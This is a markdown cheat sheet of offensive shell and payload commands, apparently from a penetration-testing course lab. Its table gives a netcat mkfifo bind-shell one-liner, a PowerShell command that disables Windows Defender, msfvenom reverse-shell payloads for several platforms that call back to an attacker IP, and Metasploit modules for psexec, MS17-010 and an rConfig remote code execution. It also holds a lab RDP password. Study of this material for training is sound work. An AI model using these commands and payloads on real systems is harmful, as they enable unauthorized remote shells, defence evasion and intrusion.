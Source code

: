 #basics #shell #linux #command #payloads #bash 

| **Commands**                                                                                        | **Description**                                                                                                                                                                                         |
| --------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                                    |
| `env`                                                                                               | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                             |
| `sudo nc -lvnp <port #>`                                                                            | Starts a `netcat` listener on a specified port                                                                                                                                                          |
| `nc -nv <ip address of computer with listener started><port being listened on>`                     | Connects to a netcat listener at the specified IP address and port                                                                                                                                      |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                 | Powershell command using to disable real time monitoring in `Windows Defender`                                                                                                                          |
| `use exploit/windows/smb/psexec`                                                                    | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`                                                                         |
| `shell`                                                                                             | Command used in a meterpreter shell session to drop into a `system shell`                                                                                                                               |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`      | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`                                                                                                                     |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                       |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                   |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`  | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`       | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`       | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                                   |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                            | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`                                                                                                                           |
| `use exploit/windows/smb/ms17_010_psexec`                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010                                                                                 |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                       | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`                                                                               |